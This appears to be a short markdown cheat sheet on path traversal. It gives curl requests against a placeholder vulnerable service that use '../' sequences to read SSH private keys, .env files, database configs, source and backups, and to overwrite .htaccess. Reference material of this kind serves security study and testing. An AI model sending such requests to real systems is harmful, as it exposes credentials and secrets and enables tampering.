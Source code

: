 # Path Traversal

## Table of Contents
- [Information Disclosure](#information-disclosure)
- [Arbitrary File Modification](#arbitrary-file-modification)

## Information Disclosure

### Credentials used for remote access can be exposed.

- SSH key file exposure
   ```bash
   curl https://[VULNERABLE-SERVICE]/read?filename=../../../../home/user/.ssh/id_rsa
   ```
  
### Sensitive information used in project can be exposed.

- Hard-coded secret information exposure
   ```bash
   curl https://[VULNERABLE-SERVICE]/read?filename=../../../../config/db_config.php
   ```

- Source code exposure
   ```bash
   curl https://[VULNERABLE-SERVICE]/read?filename=../../../../app.js
   ```

- .env file exposure
   ```bash
   curl https://[VULNERABLE-SERVICE]/read?filename=../../../../.env
   ```
  
- Backup file exposure
   ```bash
   curl https://[VULNERABLE-SERVICE]/read?filename=../../../../backup/backup.zip
   ```

## Arbitrary File Modification

### Key files can be overwritten or deleted.

- Overwrite .htaccess file
   ```bash
   curl https://[VULNERABLE-SERVICE]/upload?filename=../../../../.htaccess
   ```
